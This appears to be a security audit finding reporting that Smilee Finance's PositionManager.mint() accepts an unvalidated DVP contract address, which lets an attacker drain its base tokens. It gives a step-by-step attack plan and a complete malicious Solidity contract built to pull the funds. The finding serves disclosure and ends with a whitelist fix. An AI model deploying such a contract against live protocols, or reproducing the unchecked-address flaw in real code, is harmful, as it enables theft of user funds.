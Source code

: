 Wobbly Azure Rattlesnake

high

# Funds in PositionManager could be drained

## Summary
Attacker could drain all base token in PositionMananger by passing tainted params, due to dvp lack validity check.

## Vulnerability Detail
In PositionManager.mint(), dvp does not check it's validity, it allows attacker send tainted params to produce malicious dvp which conform to `IDVP`interface.
https://github.com/sherlock-audit/2024-02-smilee-finance/blob/main/smilee-v2-contracts/src/periphery/PositionManager.sol#L94


Let's say base token is USDC and PositionManager have 10000 USDC which comes from previous user's minting process. Attacker monitor mempool and found this transaction, he or she could do as following:
1, Deploy malicious dvp contract controled by attacker.
2, Prepare 10000 USDC, no matter from its own or lending protocol like Compound, Aave etc.
3, Build up params, set params.dvpAddr to malicious dvp contract address, set params.tokenID to 0.
4, Call PositionManager.mint with self-made params.

Then the path of funds transfer will be like:
1, Attacker send PositionManager 10000 USDC.
2, Malicious dvp be approved 10000 USDC by PositionManager
3, PositionManager send back Attacker 10000 USDC.
4, Attacker withdraw profit through Malicious dvp contract.
```solidity
function mint(
    IPositionManager.MintParams calldata params
) external override returns (uint256 tokenId, uint256 premium) {
    // Malicious dvp come in.
    IDVP dvp = IDVP(params.dvpAddr);

    ...

    // obtainedPremium = 10000 USDC, fee = 0, due to malicious dvp.
    (obtainedPremium, fee) = dvp.premium(params.strike, params.notionalUp, params.notionalDown);

    ...

    // Attacker send 10000 USDC to PositionManager
    baseToken.safeTransferFrom(msg.sender, address(this), obtainedPremium);

    // PositionManager approved malicious dvp 10000 USDC, so attcker-controled dvp could drain funds from PositionManager.
    baseToken.safeApprove(params.dvpAddr, obtainedPremium);

    // premium equals to 0 due to malicious dvp.
    premium = dvp.mint(
        address(this),
        params.strike,
        params.notionalUp,
        params.notionalDown,
        params.expectedPremium,
        params.maxSlippage,
        params.nftAccessTokenId
    );

    // PositionManager transfer 10000 USDC back to Attacker
    if (obtainedPremium > premium) {
        baseToken.safeTransferFrom(address(this), msg.sender, obtainedPremium - premium);
    }

    ...
}
```

Malicious dvp contract example:
```solidity
// SPDX-License-Identifier: BUSL-1.1
pragma solidity ^0.8.15;

import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {Ownable} from "@openzeppelin/contracts/access/Ownable.sol";

contract MalicousDVP is Ownable {
    address public baseToken;
    address private PositionManager;

    constructor(address baseToken, address PM) Ownable() {
        baseToken = baseToken;
        PositionManager = PM;
    }

    // Attacker withdraw profit
    function withdrawDirtyMoney() external onlyOwner {
        uint256 balance = IERC20(baseToken).balanceOf(PositionManager);
        IERC20(baseToken).transferFrom(PositionManager, address(this), balance);
    }

    function premium(
        uint256 strike,
        uint256 amountUp,
        uint256 amountDown
    ) external view returns (uint256 premium, uint256 fee) {
        premium = IERC20(baseToken).balanceOf(PositionManager);
        fee = 0;
    }

    function mint(
        address recipient,
        uint256 strike,
        uint256 amountUp,
        uint256 amountDown,
        uint256 expectedPremium,
        uint256 maxSlippage,
        uint256 nftAccessTokenId
    ) external returns (uint256 leverage) {
        leverage = 0;
    }

    function payoff(
        uint256 epoch,
        uint256 strike,
        uint256 amountUp,
        uint256 amountDown
    ) external view returns (uint256 payoff, uint256 fee) {
        // Dosen't matter
    }

    function getUtilizationRate() external view returns (uint256) {
        // Dosen't matter
    }

    function burn(
        uint256 epoch,
        address recipient,
        uint256 strike,
        uint256 amountUp,
        uint256 amountDown,
        uint256 expectedMarketValue,
        uint256 maxSlippage
    ) external returns (uint256 paidPayoff) {
        // Dosen't matter
    }

    function vault() external view returns (address) {
        // Dosen't matter
    }
}
```



## Impact
Funds in PositionManager could be drained.

## Code Snippet
https://github.com/sherlock-audit/2024-02-smilee-finance/blob/main/smilee-v2-contracts/src/periphery/PositionManager.sol#L91-L178

## Tool used

Manual Review

## Recommendation
Consider set dvp whitelist so no bad dvp contract can sneak in.
